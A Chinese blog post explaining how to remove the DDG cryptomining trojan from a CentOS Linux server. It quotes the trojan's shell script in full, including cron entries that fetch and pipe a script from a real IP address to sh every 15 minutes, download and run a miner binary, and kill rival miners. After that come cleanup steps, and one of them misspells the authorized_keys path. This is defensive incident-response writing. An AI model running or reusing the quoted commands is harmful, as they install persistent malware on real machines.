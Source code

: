```yaml
---
layout: post
title: Linux 清理挖矿木马DDG
categories: [cate1, cate2]
description: some word here
keywords: keyword1, keyword2
---
```


> DDG挖矿病毒是一款在Linux系统下运行的恶意挖矿病毒，该病毒从去年一直活跃在现在，已经挖取了价值一千多万人民币的虚拟币货币，此病毒样本在一年左右的时间，已开发出了多个变种样本，此次发现的为DDG.3012/DDG3013挖矿版本。

# 环境说明

- 系统： Centos 7.2 x86_64
- DDG脚本：curl -fsSL http://13.113.240.221:8000/i.sh

# 一、DDG 木马脚本内容

```bash
# crontab(root)
$ crontab -l
*/15 * * * * curl -fsSL http://13.113.240.221:8000/i.sh | sh

$ curl -fsSL http://13.113.240.221:8000/i.sh
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "" > /var/spool/cron/root
echo "*/15 * * * * curl -fsSL http://13.113.240.221:8000/i.sh | sh" >> /var/spool/cron/root


mkdir -p /var/spool/cron/crontabs
echo "" > /var/spool/cron/crontabs/root
echo "*/15 * * * * curl -fsSL http://13.113.240.221:8000/i.sh | sh" >> /var/spool/cron/crontabs/root


ps auxf | grep -v grep | grep /tmp/ddgs.3014 || rm -rf /tmp/ddgs.3014
if [ ! -f "/tmp/ddgs.3014" ]; then

    curl -fsSL http://13.113.240.221:8000/static/3014/ddgs.$(uname -m) -o /tmp/ddgs.3014
fi
chmod +x /tmp/ddgs.3014 && /tmp/ddgs.3014

ps auxf | grep -v grep | grep Circle_MI | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep get.bi-chi.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep hashvault.pro | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep nanopool.org | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep minexmr.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep /boot/efi/ | awk '{print $2}' | xargs kill
#ps auxf | grep -v grep | grep ddg.2006 | awk '{print $2}' | kill
#ps auxf | grep -v grep | grep ddg.2010 | awk '{print $2}' | kill
```

# 二、 清除方案

## 1. 清理不明主机名ssh免登陆密钥

```bash
[root@VM_152_184_centos /]# > /root/.ssh/autherized_keys

#使用chattr锁定密钥文件,防止被恶意写入
[root@VM_152_184_centos /]# chattr +i  /root/.ssh/authorized_keys
```

## 2. Linux用root强制踢掉已登录不明用户

```bash
# 首先使用w命令查看所有在线用户：
[root@VM_152_184_centos /]# w
 20:50:14 up 9 days,  5:58,  3 users,  load average: 0.21, 0.05, 0.02
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    101.45.224.253   20:48    0.00s  0.00s  0.00s w
root     pts/1    101.45.224.253   20:49   17.00s  0.00s  0.00s -bash
hmj      pts/2    101.45.224.253   20:50    2.00s  0.00s  0.00s -bash

# 执行命令：pkill -kill -t TTY值  例：踢掉已登录用户hmj
[root@VM_152_184_centos /]# pkill -kill -t pts/2

# 再用w命令查看是否已经强制踢掉：
[root@VM_152_184_centos /]# w
 20:55:10 up 9 days,  6:03,  2 users,  load average: 0.03, 0.03, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    101.45.224.253   20:48    0.00s  0.00s  0.00s w
root     pts/1    101.45.224.253   20:49    5:13   0.00s  0.00s -bash
```

## 3. 查找相应的挖矿程序

然后删除相应的恶意程序，在临时目录下

/tmp/qW3xT.2、/tmp/ddgs.3013、/tmp/ddgs.3012、/tmp/wnTKYg、/tmp/2t3ik等文件

## 4.结束掉挖矿和DDG母体相关进程

```bash
[root@VM_152_184_centos /]# ps -ef | grep -v grep | egrep 'wnTKYg|2t3ik|qW3xT.2|ddg|qW3xT' | awk '{print $2}' | xargs kill -9
```

## 5.清除到定时任务，相应的定时任务文件

```bash
/var/spool/cron/root
/var/spool/cron/crontabs/root
```

> 参考链接：<https://www.freebuf.com/articles/system/180385.html>